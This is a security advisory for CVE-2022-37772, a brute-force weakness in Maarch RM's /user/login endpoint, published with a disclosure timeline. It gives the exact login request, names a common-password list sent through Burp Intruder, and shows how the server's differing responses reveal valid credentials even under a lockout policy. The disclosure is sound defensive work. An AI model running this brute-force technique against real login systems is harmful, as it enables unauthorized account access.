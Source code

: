 # Improper Restriction of Excessive Authentication Attempts

## Description

Improper Restriction of Excessive Authentication Attempts vulnerability exists that could allow unauthorized access when an attacker uses brute force. Affected Products: Maarch RM - all versions.

## Information

- CVE ID: CVE-2022-37772
- Vulnerability Type: Improper Restriction of Excessive Authentication Attempts (CWE-307)
- Vendor of Product: Maarch Xelians
- Affected Product: Maarch RM - all versions
- Affected Component: page: /user/login (POST)
- Editor confirmed: Yes
- Discoverer: {François Mehault Pentester from Orange Cyberdefense France}

# References

- Advisory: https://github.com/Orange-Cyberdefense/CVE-repository
- CVE: CVE-2022-37772
  - (MITRE)
  - (NVD)
- Product site: https://maarch.ovh/maarch-rm/
- Release advisories: https://labs.maarch.org/maarch/maarchRM/-/releases
- ExploitDB: NA

# Approximate Timeline

2022/07/18: Vulnerabilities discovered
2022/07/29: Vulnerabilities reported to the editor (Maarch Xelians)
2022/08/31: Confirmation of vulnerability by the editor

# Technical details

## Improper Restriction of Excessive Authentication Attempts - Identified on Maarch RM 2.8.3, /user/login (POST)

- Vulnerable request :

```
POST /user/login HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Requested-With: XMLHttpRequest
X-Laabs-Csrf: false
Content-Length: 71
Origin: https://target.com
Referer: https://target.com/user/prompt
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"userName":"admin","password":"inject_here","requestPath":"/user/prompt"}
```

- Payload : https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt (sent with Burp Intruder)

- Details : it is possible to conduct a brute force attack on the authentication form due to excessive verbose responses from the application, whether or not a lockout policy is active. If a lockout policy is active, the application informs that the user account is locked out upon presentation of valid credentials. If there is no lockout policy, brute force is by definition possible.

- Privileges: No privilege is required

- error generated with invalid credentials (with or without lockout policy)

```
HTTP/1.1 401 Unauthorized
Date: Mon, 18 Jul 2022 09:02:49 GMT
Server: Apache
X-Laabs-UserStory: app/authentication
X-Laabs-Exception: bundle\auth\Exception\authenticationException; Username and / or password invalid in /appli/SAE/core/Reflection/Service.php:176
X-Laabs-View: auth/authentication/login
Content-Language: en
Content-Length: 82
Connection: close
Content-Type: application/json

{"status":false,"message":"Nom d\u0027utilisateur et \/ ou mot de passe invalide"}
```

- error generated with lockout policy and valid credentials

```
HTTP/1.1 403 Forbidden
Date: Mon, 18 Jul 2022 10:02:49 GMT
Server: Apache
X-Laabs-UserStory: app/authentication
X-Laabs-Exception: bundle\auth\Exception\authenticationException; Username  is locked in /appli/SAE/core/Reflection/Service.php:176
X-Laabs-View: auth/authentication/login
Content-Language: en
Content-Length: 68
Connection: close
Content-Type: application/json

{"status":false,"message":"L\u0027utilisateur  est verrouill\u00e9"}
```

- error generated without lockout policy and valid credentials

```
HTTP/1.1 200 OK
Date: Mon, 18 Jul 2022 14:53:57 GMT
Server: Apache
Set-Cookie: LAABS-AUTH=<redacted>; expires=Mon, 18-Jul-2022 15:53:57 GMT; Max-Age=3600; path=/; secure; HttpOnly
Set-Cookie: LAABS-CSRF=<redacted>; path=/; secure
X-Laabs-UserStory: app/authentication
X-Laabs-View: auth/authentication/login
Content-Language: en
Content-Length: 53
Connection: close
Content-Type: application/json

{"status":true,"message":"Utilisateur connect\u00e9"}
```
